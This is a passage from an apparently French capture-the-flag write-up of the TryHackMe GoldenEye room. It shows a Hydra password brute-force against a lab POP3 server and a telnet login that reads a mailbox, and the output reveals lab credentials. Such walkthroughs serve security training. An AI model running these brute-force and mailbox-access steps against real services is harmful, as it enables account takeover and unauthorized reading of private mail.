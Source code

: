Dans les messages de xenia, nous trouvons **doak** un nouvel utilisateur pop3

Comme pour boris et natalya, passons-le à Hydra

```
──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l doak  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 10:44:49
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.233.62:55007/
[55007][pop3] host: 10.10.233.62   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 10:45:18
```

**Nous avons le nouveau crédentiel pop3 doak:goat**

Lisons ses mails:

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.233.62...
Connected to 10.10.233.62.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 97DC24549D
	for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```
